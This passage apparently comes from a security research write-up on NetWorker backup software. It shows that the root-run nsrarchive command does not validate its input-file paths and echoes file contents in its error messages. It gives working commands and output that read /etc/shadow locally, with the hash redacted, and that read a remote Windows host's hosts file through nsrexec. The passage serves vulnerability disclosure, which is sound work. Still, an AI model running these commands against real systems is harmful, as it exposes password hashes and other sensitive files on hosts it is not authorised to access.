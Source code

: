 Another command that caught our eye is **nsrarchive**:

> nsrarchive can archive files, directories, or entire filesystems to the NetWorker server (see nsr(8)).  The progress of an archive can be monitored using the Java based NetWorker Management  Console or  the curses(3X) based nsrwatch(8) program, depending on the terminal type.  Use of nsrarchive is restricted to users in NetWorker 'administrator' list or members of the 'archive users' list or to those who possess the 'Archive Data' privilege.

This command can take filenames as input, respectively:

```
-f filename The file from which to read  default directives (see nsr(5)).
-I input_file In addition to taking the paths for nsrarchive from the command line,\
a list of paths in the named input_file will be archived.\
The paths must be listed one per line.\
If no paths are specified on the command line, then only those paths specified in the input_file will be archived.
```

Given that nsrarchive does not validate the received path, that it runs with root privileges, and that it prints out the file content on error, we can force it to print the content of sensitive files. In the example below, we make it dump the content of `/etc/shadow`:

```
nsrarchive -s 127.0.0.1 -I '/etc/shadow' -T t
Finished reading the annotation string; beginning the archive process.
87651:nsrarchive: Cannot get status on path 'root:$1$REDACTED.::0:99999:7:::':
Aucun fichier ou dossier de ce type
--snip--
```

Windows hosts are also affected, here we demonstrate it by reading the remote system hosts file:

```
export RCMD='nsrarchive -I "C:\\Windows\\System32\\drivers\\etc\\hosts" -T t'
nsrexec -c 192.168.121.183 | cut -d':' -f2 | sed 's/ No such file or directory [0-9 ]* //g' 
89922 1613751289 1 5 0 3588 2452 0 networker-win nsrarchive NSR notice 74 \nFinished reading the annotation string; beginning the archive process.\n 0
 %s. Continuing ...  1 24 184 A connection attempt failed because the connected party did not properly respond after a period of time, or established connection failed because connected host has failed to respond.
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host
# localhost name resolution is handled within DNS itself.
#    127.0.0.1       localhost
#    
192.168.121.92   networker-client1
192.168.121.50   networker-client
192.168.121.238  networker-server
```
